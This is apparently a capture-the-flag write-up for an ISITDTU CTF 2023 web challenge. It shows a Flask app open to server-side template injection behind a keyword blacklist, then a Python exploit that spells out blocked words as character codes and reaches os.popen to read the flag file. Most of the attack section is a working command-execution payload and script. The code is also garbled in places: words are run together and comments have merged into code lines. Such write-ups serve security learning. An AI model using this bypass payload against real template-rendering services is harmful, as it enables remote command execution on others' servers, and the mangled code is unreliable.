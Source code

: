 # thru_the_filter_test_flag

Source: ISITDTU CTF 2023

Technique: SSTI

Fields: Web

- SOURCE
    
    ```python
    from flask import Flask, request, render_template_string,redirect
    
    app = Flask(__name__)
    def check_payload(payload):
        blacklist = ['import', 'request', 'init', '_', 'b', 'lipsum', 'os', 'globals', 'popen', 'mro', 'cycler', 'joiner', 'u','x','g','args', 'get_flashed_messages', 'base', '[',']','builtins', 'namespace', 'self', 'url_for', 'getitem','.','eval','update','config','read','dict']
        for blin blacklist:
            if blin payload:
                returnTruereturnFalse@app.route("/")
    def home():
        if request.args.get('c'):
            if(check_payload(ssti)):
                return "HOLD UP !!!"
            else:
                return render_template_string(request.args.get('c'))
        else:
            return redirect("""/?c={{ 7*7 }}""")
    
    if __name__ == "__main__":
        app.run()
    ```
    
- The code shows that basic Server Side Include Injection (SSTI) vulnerability is **`{{ 7 * 7 }}`**
- But function **`check_payload`** already filtered so many and after looking the blacklist, i thought we need some special trick bypassing this filter.

Trick Bypass: **attr + format**

- Because they filter most of word that can ssti so we need to use attr and format to generate the string to bypass this.
- Example: **`attr("%c%c%c%c%c%c%c%c%c%c%c%c"|format(99,97,116,32,102,108,97,103,46,116,120,116))`** is generate to **`cat flag.txt`**
- The final exploit script:
    
    ```python
    import requests
    
    def gen(p):
        num_c = len(p)
    
        chrs = ""
    
        for iin p:
            chrs += str(ord(i)) + ","
        chrs = chrs[:-1]
    
        return f'attr(\"{"%c"*num_c}\"|format({chrs}))'
    
    # Define the URL and query parametersurl = 'http://localhost:1338'
    payload = f'{{()|{gen("__class__")}|{gen("__base__")}|{gen("__subclasses__")}() | {gen("__getitem__")}(367) | {gen("__init__")} | {gen("__globals__") } | {gen("__getitem__")}("o""s")|attr("po""pen")("%c%c%c%c%c%c%c%c%c%c%c%c"|format(99,97,116,32,102,108,97,103,46,116,120,116))|attr("re""ad")()}}'
    params = {
        'c': payload
    }
    
    # Define the headersheaders = {
        'Host': 'localhost:1338',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'close'
    }
    
    # Send the GET requestresponse = requests.get(url, params=params, headers=headers)
    
    # Check the responseif response.status_code == 200:
        print(response.text)
    else:
        print(f"Request failed with status code: {response.status_code}")
    
    #ISITDTU{tough_times_create_tough_guys!@@%#0@}
    ```
